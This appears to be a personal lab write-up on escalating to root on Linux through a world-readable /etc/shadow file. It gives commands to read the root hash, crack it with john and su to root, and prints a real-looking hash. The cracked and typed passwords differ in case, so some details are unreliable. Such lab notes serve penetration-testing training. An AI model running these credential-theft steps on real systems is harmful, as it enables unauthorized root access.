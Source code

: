 ```yaml
---
category: Uncategorized
tags: []
---
```

The /etc/shadow file contains user password hashes, and by default is not readable by any user except for root.

If we are able to read the contents of the /etc/shadow file, we might be able to crack the root user’s password hash.

If we are able to modify the /etc/shadow file, we can replace the root user’s password hash with one we know.

```bash - target
./lse.sh -i | more
```

![[Pasted image 20211230132303.png]]

1. Check the permissions of the / / etc /shadow file:

```bash - target
ls -l /etc/shadow
```

-rw-r—rw- 1 root shadow 810 May 13 2017 /etc/shadow

-   Note that it is world readable.

2. Extract the root user’s password hash:

```bash target
head -n 1 /etc/shadow
```

```root:$6$Tb/euwmK$OXA.dwMeOAcopwBl68boTG5zi65wIHsc84OWAIye5VITLLtVlaXvRDJXET..it8r.jbrlpfZeMdwD3B0fGxJI0:17298:0:99999:7:::```

3. Save the password hash in a file (e.g. hash.txt):

```bash - kali
echo '$6$Tb/euwmK$OXA.dwMeOAcopwBl68boTG5zi65wIHsc84OWAIye5VITLLtVlaXvRDJXET..it8r.jbrlpfZeMdwD3B0fGxJI0' > hash.txt'```
```

4. Crack the password hash using john :

```bash - kali
john --format=sha512crypt --wordlist=/usr/share/wordlists/rockyou.txt hash.txt
```

password123 (?)

5. Use the su command to switch to the root user, entering the password we cracked when prompted:

```bash - target
su
```

```bash - target
Password123
```

```bash - target
id
```

>uid=0(root) gid=0(root) groups=0(root)
